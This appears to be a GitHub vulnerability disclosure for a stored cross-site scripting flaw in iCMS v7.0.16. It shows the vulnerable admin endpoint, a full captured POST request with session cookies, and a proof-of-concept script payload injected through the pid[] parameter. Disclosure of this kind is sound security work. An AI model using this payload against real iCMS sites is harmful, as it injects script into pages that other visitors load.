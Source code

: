 ## There is a Stored XSS Vulnerability in iCMS v7.0.16

The iCMS v7.0.16 has a tored XSS Vulnerability in iCMS v7.0.16

### proof

The vulnerable url is:

```
http://192.168.64.2/iCMS-7.0.16/admincp.php?app=article&do=save&frame=iPHP&CSRF_TOKEN=9041868bvetZwR1LmSKxbAKQMzFoR6mwPIZzKQA8SVCJiuwTgSqofazrzNTgVilHb1s8CJI1dK6Y7cJfayPMQO-NYT-9ClZ_lLl3y0Q
```

The whole package is：

···
POST /iCMS-7.0.16/admincp.php?app=article&do=save&frame=iPHP&CSRF_TOKEN=8379e504fAGLz85cfRMOPsH4R93vvKD0NLoOaXhyIfh-HeRGmps6mL6iLIkVpZDAsUB7MoMgD9LmXA_NE3KixIIMJUao8-KGlt-k69c HTTP/1.1
Host: 192.168.64.2
Content-Length: 570
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.64.2
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.96 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.64.2/iCMS-7.0.16/admincp.php?app=article&do=add
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-TW;q=0.8,zh;q=0.7,zh-CN;q=0.6
Cookie: iCMS_apps_tab=apps-type-1; iCMS_ACP_sidebar_mini=0; PHPSESSID=87b0836c37ab2095ec1c01c74cbcc245; Hm_lvt_7b43330a4da4a6f4353e553988ee8a62=1611310222; Hm_lpvt_7b43330a4da4a6f4353e553988ee8a62=1611310697; bdshare_firstime=1611392444473; iCMS_tag_category_tabs=tree; iCMS_article_good_1=1611488317; iCMS_ADMIN_AUTH=650bd5cd8NWyz8fJhuzzFnbI220Kia_5w0mB-MOAB3a4aQC2SB0vf4-MPR6Rc8IkujMeH4A631iutChEDui75bvB_MLCrcGAyHPR2gYjbnjyh1kJbtQLmFntvg; iCMS_USER_AUTH=34d9c5bbxpGL7X25aZ7_vNOzlQAYlerPnwRGOLwXFqwhjmcYJsN4lTFBjo3P7pqIq5LHZpJ7Hr9FquG1hdUBrV3NsxlIugaqhw4MyuoBDlvxgYWCtijkRqLtQPbQO1wC8n-93m1ObSrI0lsSiNs1aTLm5UMl0pS-YCFaMQhlwez-7MkCaGgxDeb2CRNuMmsQK1sl-eVdw_6aDWztyQkasA57sy8CXAYawiilmfN2fDdB1Js0tFvUvzM4kLShqy0Q06iSYe07vpvXeVfwO0QNdQF-Ssrg0DnZAB_HiiBfSzGmLTHSCOXnr-wjMk_g4LghbNjXCc0B6FQgjqAfAMLvh2UOOeUYdHiNAuy8WqzotiHTKvpvX0d3JUkVR122OiecRP2It7HfZZzRKinhzEHPrI3eHHYDfuia1naYFZ7zilhL9YmRNCARQ63Utu0YQYOOz7U0WQ3FeNPHiJYzx3w4F7ucBAsmCwiOTqos-J8GwHswr-pmEJQ1EKzpQoB_RqG0kK_z1wiUa6X_mTSIuXJKo35yPmbj; iCMS_USER_TOKEN=16121103b541c002ddf321777821221d9f784cef; iCMS_userid=9a19953azOe4BTrwyNfGp5jHStxEJ0IpkHOFnBmJCa23ONwOhQ; iCMS_nickname=c882806dOWG3Q6CdzP1YS1ZaVicJqujfV7eGNT8Ij3nRgpzs
Connection: close

_cid=&_scid=&_tags=&_pid=&_data_id=&article_id=0&userid=1&ucid=&postype=1&REFERER=http%3A%2F%2&chapter=&markdown=0&cid=4&status=1&scid%5B%5D=4&pid%5B%5D=0&title=ffasd&stitle=fsad&source=123131231&author=&editor=iCMS&pic=fasd&mpic=&spic=&keywords=fsd&tags=asdf&description=fasd&data_id=&subtitle=fasd&autopic=1&body%5B%5D=%3Cp%3Efasd%3C%2Fp%3E&pubdate=2021-01-24+21%3A31%3A04&sortnum=1611495064&weight=1611495064&hits=0&hits_today=0&hits_yday=0&hits_week=0&hits_month=0&favorite=0&comments=0&good=0&bad=0&tpl=&clink=&url=
···

the vulnerable param is pid[], and the poc is:

```
tqj35%22%3e%3cscript%3ealert(1)%3c%2fscript%3eg6ciq
```

And every time we visit this site ,the js will execute. like:

![](https://github.com/0-error/myCVE/blob/gh-pages/pictures/cve14.png)

